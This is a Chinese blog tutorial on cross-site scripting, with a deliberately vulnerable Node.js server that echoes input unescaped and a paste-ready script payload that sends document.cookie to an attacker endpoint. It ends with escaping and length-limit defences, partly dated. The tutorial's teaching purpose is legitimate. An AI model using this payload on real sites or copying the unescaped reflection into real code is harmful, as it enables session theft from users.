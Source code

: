 ```yaml
---
title: XSS 攻击原理、实战、预防
date: 2018-03-18 21:32:34
categories:
- 后端
tags:
- XSS攻击
---
```


```
目录：
1. XSS 攻击原理——脚本注入，如何注入？
2. XSS 攻击实战 —— node 模拟服务端提供网站
3. XSS 如何预防
```

# 1. 原理

常见攻击场景：在论坛或博客的下方经常会有留言功能，输入内容：`测试数据`，留言内容会被一个 h 标签包裹，F12 控制台会打印：

![留言数据](http://upload-images.jianshu.io/upload_images/6693922-1d300716e748d8f8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

现在在下方留言 `测试数据</h><script>alert('xss test')</script><h>` ，F12 控制台可以看到我们自己写的脚本通过简单伪装就被植入到该网站，关键是直接看页面压根看不出啥变化。

![XSS 攻击](http://upload-images.jianshu.io/upload_images/6693922-dd296003678da83a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这里的脚本比较简单，如果对脚本稍加修改，比如自执行函数，页面打开时自动运行；让脚本会获取 [浏览器保存的用户登录密码](chrome://settings/passwords)，再通过一些手段发送给攻击者，那么攻击者就成功盗取用户账号。

**举个栗子**：假设简书上上某一篇文章下方评论里被攻击者注入了攻击脚本，其它用户只要打开这篇文章，攻击脚本自动执行，将打开该文章的用户身份信息发送给攻击者。那么攻击者就可以使用当前登录用户的简书账号密码去做坏事了.......

# 2. 实战

使用 node 作为服务器提供论坛下方评论功能，模拟 XSS 攻击过程。

假设你计算机安装了 node 环境，拷贝下方内容，保存为 index.js。`node index.js` 运行服务，在浏览器输入 `localhost:3000/` 回车。

```
// index.js
const http = require('http');
const fs = require('fs');
const url = require('url');

const server = http.createServer(function (req, res) {
    if (req.url === '/favicon.ico') {
        return;
    }
    const parseUrl = url.parse(req.url, true);

    console.log('>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>')
    console.log(parseUrl)

	// 路由1 /uploadForm	提交表单处理方法，在页面显示刚才表单内填写的内容
	// 路由2 /xssattack		xss 攻击接收浏览器发来的 cookie 接口
	// 路由3 /  			返回一个表单
    if (parseUrl.pathname === '/uploadForm') {
        res.writeHead(200, {'content-Type':'text/html;charset=UTF-8'})
        const username = parseUrl.query.username;
        res.write(`<h>${username}</h>`);
        res.end();
    } else if (parseUrl.pathname === '/xssattack') {
        res.writeHead(200, {'content-Type':'text/html;charset=UTF-8'})
        const pw = parseUrl.query.pw;
        res.write(`i received message：${pw}`)
        res.end();
    } else {
		res.writeHead(200, {'content-Type':'text/html;charset=UTF-8', 'Set-Cookie': 'myCookie=test'})
		res.write(`
			<form method="get" action="/uploadForm">
				<input type="text" style="width: 600px;" placeholder="输入用户名" name="username">
				<button type="submit">提交</button>
			</form>
		`)
		res.end();
	}
});

server.listen(3000, function () {
    console.log('server is starting on port 3000');
});
```

该服务提供了三个接口。

- `localhost:3000/`  node 服务器返回一个表单页面；
- `localhost:3000/uploadForm` 表单提交按钮处理方法，将表单文本框中内容打印到页面上；
- `localhost:3000/xssattack` 攻击脚本获取到当前登录用户的身份信息，如账号密码，或者 cookie 等，发送到攻击者自己的服务器上。

这里提供一份攻击脚本，作用是获取当前登录用户的 cookie，然后发送给攻击者自己服务器上某个接口。直接复制内容到表单文本框中。

```
测试数据</h><script>(function () {var str = document.cookie;var a =document.createElement('a');a.setAttribute('id', 'xxlkjxljklxjklfasdf');a.href='http://localhost:3000/xssattack?cookie='+str;document.body.appendChild(a);document.getElementById('xxlkjxljklxjklfasdf').click();})()</script><h>
```

攻击脚本源码（仅供参考，为什么获取 cookie 不直接获取账号密码，以及使用 a 标签跳转的方式在浏览器地址栏会暴露等等问题，这里都不做解释，这里仅是模拟 XSS 攻击的过程）：
```
// 攻击脚本自执行函数：获取 cookie，发送给攻击者服务器 localhost:3000/xssattack
<script>
(function () {
    var str = document.cookie;
    var a =document.createElement('a');
    a.setAttribute('id', 'xxlkjxljklxjklfasdf')
    a.href='http://localhost:3000/xssattack?cookie='+str
    document.body.appendChild(a);
    document.getElementById('xxlkjxljklxjklfasdf').click()
})()   
</script>   
```

在表单中输入包含注入脚本的伪装评论：

![表单中输入脚本代码](http://upload-images.jianshu.io/upload_images/6693922-b115cb07bc747559.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

点击提交，在终端可以看到下方打印消息。
```
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
Url {
  protocol: null,
  slashes: null,
  auth: null,
  host: null,
  port: null,
  hostname: null,
  hash: null,
  search: '?cookie=myCookie=test',
  query: { cookie: 'myCookie=test' },
  pathname: '/xssattack',
  path: '/xssattack?cookie=myCookie=test',
  href: '/xssattack?cookie=myCookie=test' }
```

验证浏览器中 cookie 是否正确：

![浏览器控制台打印 Cookie](http://upload-images.jianshu.io/upload_images/6693922-2bcd4ac1b14afa4b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

到此，攻击者就获取到登录用户的 Cookie，用了 cookie 就可以冒充当前登录用户去做些坏事了。当然这里获取账号密码更直接，在发送的使用邮件或其他方式都可以，保证隐蔽性。

# 3. 预防

XSS 攻击如此神出鬼没，关键是在页面上看不出任何差异，如何防范它呢？

- 对于普通用户

普通用户没有编程基础，不太能识别 XSS 攻击，建议使用谷歌浏览器，谷歌浏览器自带检测网站 XSS 攻击功能，如果谷歌浏览器检测到您当前访问的页面存在 XSS 攻击，不会运行注入脚本，会报错提示：

   ![谷歌浏览器自带 XSS 检测功能](http://upload-images.jianshu.io/upload_images/6693922-a2d6cfae1a50e90a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我在火狐浏览器也做了下测试，发现火狐并不会检测 XSS 攻击脚本。（这里不是黑火狐，目前火狐主打的是访问速度，对安全这块可能并没有太多关注）

- 对于网站站长
  虽然 XSS 攻击并不会直接对网站造成影响，但是它总是盗取登录该网站用户的账号密码，搞不好哪天你的用户烦心了，不用这个网站了，网站丢失用户量是件很可怕的事。
  
  - **预防一：对于评论、文章内容等做转码操作**

  将评论、文章等取数据内容做转码，将 `<` 转码为 `&lt;`，`>` 转码为 `&gt;`，此时在浏览器中就可以看到注入脚本无处可藏，显露原型了。这也是目前使用比较广泛的一种，楼主测试了一下 `码云` 是否有 XSS 漏洞，发现它就是这种预防措施的。

  ![对评论内容做 html 转码](http://upload-images.jianshu.io/upload_images/6693922-456bb4224d061bca.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

  - **预防二：对表单内容做长度校验**

有些前端开发人员不注意安全，表单内文本框或文本域都不做长度校验，这就存在 XSS 攻击风险。上面也提到注入脚本一般长度很长，聪明一些的攻击者会将注入脚本进行压缩缩短长度。如果你的文本框长度只允许输入 10 个字符，嫩它注入脚本再厉害也是无计可施的。

![image.png](http://upload-images.jianshu.io/upload_images/6693922-34a814aac5162a21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)






 


